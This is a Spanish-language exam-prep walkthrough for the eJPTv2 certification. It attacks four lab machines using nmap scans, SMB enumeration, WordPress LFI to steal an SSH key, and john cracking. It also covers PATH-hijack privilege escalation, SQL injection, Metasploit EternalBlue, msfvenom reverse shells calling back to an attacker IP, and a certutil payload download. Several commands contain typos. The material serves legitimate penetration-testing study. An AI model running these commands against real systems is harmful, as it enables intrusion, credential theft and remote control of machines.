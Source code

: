 # Laboratorio de preparación eJPTv2 | Simulación de examen

{% embed url="https://youtu.be/v20IsEd5nUU?si=5v8wrsLm_pxpzXXj" %}

## Enumeración de red - Descubrimientos de hosts y escaneo de puertos

```bash
ip a
nmap -sn 10.0.2.0/24 #manda paquetes ICMP a ese segmento de red
sudo nmap -sS --min-rate 5000 -p- --open 10.0.2.43,45,46,53,55 -oN tcp_scan.txt
grep '^[0-9]' tcp_scan.txt | cut -d '/' -f1 | sort -u | xargs | tr ' ' ','
nmap --open -p135,139,22,25,45,445,49665,49670,80 -sC -sV 10.0.2.43,45,46,53,55 -Pn -On full_scan.txt
```

## Primera Máquina

Servicios vulnerables: 22,25,80,139 y 445.

Nos creamos una carpeta para la primera máquina.

```bash
mkdir 10.0.2.43
```

Entramos por el puerto 80 y vemos una imagen de un evento griego. Tampoco en el código fuente hay cosas relevantes. Hacemos por lo tanto hacemos fuerza bruta a directorios.

```
dirb http://10.0.2.43:80 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Por aquí no va el ataque. Ahora nos fijaremos en SMB.

```bash
smbclient -L 10.0.2.43 -N 
```

Como no vemos que permisos tenemos sobre esos recursos usamos este comando.

```bash
smbmap -H 10.0.2.43
crackmepexec smb 10.0.2.43 -u '' -p '' --shares
enum4linux 10.0.2.43
```

Realizamos conexón con el recurso anonymous.

```bash
smbclient //10.0.2.43/anonymous -N
```

Nos descargamos el archivo y nos creamos un archivo con las contraseñas mencionadas. También podemos listar usuarios.

```bash
crackmapexec smb 10.0.2.43 -u '' -p '' --users
```

Con las credenciales.

```bash
crackmapexec smb 10.0.2.43 -u helios -p passwords.txt 
```

Esas contraseñas no son válidas para el usuario helios.

```bash
smbmap -H 10.0.2.43 -u helios -p qwerty
```

Tenemos permisos a recursos que no teníamos antes.

```bash
smbclient //10.0.2.43/helios -U helios
```

Nos descargamos los archivos. Vemos que hemos encontrado una ruta oculta. Parece un WordPress por lo que añadimos el dominio al /etc/hosts.

```bash
10.0.2.43    symfonos.local
https://symfonos.local/h3l105/wp-admin
```

> Nota: también nos puede caer Drupal /drupscan) y Joomla (joomscan).

Enumeramos para el WordPress.

```bash
wpscan --url http://symfonos.local/h3l105 #nos enumera todo hasta plugins
```

Usamos searchsploit para ver los exploits de los plugins.

```bash
searchsploit wordpress mail masta
searchsploit site editor
```

Nos sale 3 exploits de masta.

```
searchsploit -m 40290 # nos lo traemos en la atacante
```

Vemos el contenido y encontramos una ruta por la que entramos en ella y descubrimos el /etc/passwd. Vamos a convertir LFI a RCE. Atentamos a la id\_rsa de los usuarios del sistema con la ruta anterior.

```bash
=/home/helios/.ssh/id_rsa
```

Tenemos la id\_rsa pero encriptada.

```bash
ssh helios@10.0.2.43
```

Se necesita la clave pública para iniciar sesión. Copiamos la id\_rsa el contenido y proporcionamos eso al inicio de sesión.

<pre><code>chmod 600 id_rsa
<strong>ssh -i id_rsa helios@10.0.2.43
</strong></code></pre>

Extraemos los hashes de la id\_rsa.

```bash
ssh2john id_rsa > hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

Encontramos la passphrase.

```bash
ssh -i id_rsa helios@10.0.2.43 #poner xerox
```

Estamos dentro de la máquina víctima. Revisamos.

```bash
sudo -l
cat /etc/crontab
find / -perm -4000 -ls 2>/dev/null
```

Hay uno que nos llama la atención.

```bash
/opt/statuscheck
```

Con la herramienta strings podemos ver caracteres legibles.

```
strings /opt/statuscheck
```

Vemos que hay un curl y lo está buscando en el PATH del sistema. Vamos a hacer un PATH Hijacking.

```bash
export PATH=/tmp:$PATH #ruta principal cambiada
cd /tmp
echo '/bin/bash -p' > curl
chmod +x curl
./curl #inicia una sesión anidada
/opt/statuscheck #en el momento que encuentre curl obtendremos una bash
```

## Segunda máquina

Servicios vulnerables: 80.

No se acceden a los recursos de forma correcta y comprobamos el código fuente y descubrimos un dominio con el que lo añadimos a /etc/hosts.

```bash
10.0.2.53    doc.hmv
```

Enumeramos directorios.

```
nikto -url http://doc.hmv
```

En el panel de Login.

```
' OR==1;-- -'
```

Hacemos un captura con BurpSuite y lo guardamos en un fichero para hacer sqlmap.

```
sqlmap -r post_request
```

En el perfil podemos cambiar la imagen de perfil por lo que intentamos subir una Reverse Shell. Hacemos posteriormente un tratamiento de la TTY.

Encontrando el usuario bella.

```
cat /etc/passwd
```

Las credenciales también se pueden encontrar en el servidor web.

<pre class="language-bash"><code class="lang-bash"><strong>cat /var/www/html/traffic_offense/initialize.php
</strong></code></pre>

Encontramos unas credenciales para una base de datos. También vemos que a nivel del sistema son las mismas por lo que nos logueamos a bella.

## Tercera máquina

Servicios vulnerables: 135,139 y 445.

```
nmap -p445 --script="smb-vuln-*" 10.0.2.45
```

Vemos que hay un EternalBlue (ms17-010) y ms08-067.

```bash
msfconsole
search MS17-010
use 0
show options
setg RHOSTS 10.0.2.45
run
exploit #este módulo no sirve por no es soportable vamos a otro
use 1
run
```

```
search MS08-067
use 0
run
```

## Cuarta máquina

Servicios vulnerables: 80, 135,139 y 445.

Al parecer tenemos varios usuarios. Enumeramos directorios con dirbuster pero nada. Enumeramos para el servicio SMB.

```bash
crackmapexec smb 10.0.2.46 -u '' -p '' --shares
crackmapexec smb 10.0.2.46 -u usuarios.txt '' -p '' --shares
crackmapexec smb 10.0.2.46 -u usuarios.txt -p usuarios.txt --shares
```

Encontramos unas credenciales bogo:bogo.

```bash
smbclient //10.0.2.46/LOGS -U bogo
```

Nos descargamos ese archivo. Vemos un comando interesante.

```bash
crackmapexec smb 10.0.2.46 -u marcos -p SuperPassword --shares
```

Accedemos al recurso WEB con el usuario Marcos.

```bash
smbclient //10.0.2.46/WEB -U marcos
```

En ese directorio encontramos los mismos archivos que hay en el servicio web por lo que podemos subir cualquier archivo en lo que hacemos una Reverse Shell.  Creamos un archivo .aspx que son los php para estos casos con MSFVenom.

```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=10.0.2.100 LPORT=443 -f aspx -o reverse.aspx
```

Lo subimos y nos ponemos en escucha.

```bash
nc -lvnp 443
```

Ya tenemos una shell de Windows. Creamos un ejecutable para que nos envíe una Reverse Shell meterpreter.

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.0.2.100 LPORT=443 -f exe -o reverse.exe
```

Levantamos un servidor http con Python.

```bash
python3 - http.server 80
```

> Nota: cambiamos el nombre de del index.html porque revisa ese archivo para el Directory listing.

Nos movemos a Public/Downloads para obtener el archivo.

```bash
certutil.exe -f urlcache http://10.0.2.100/reverse.exe
```
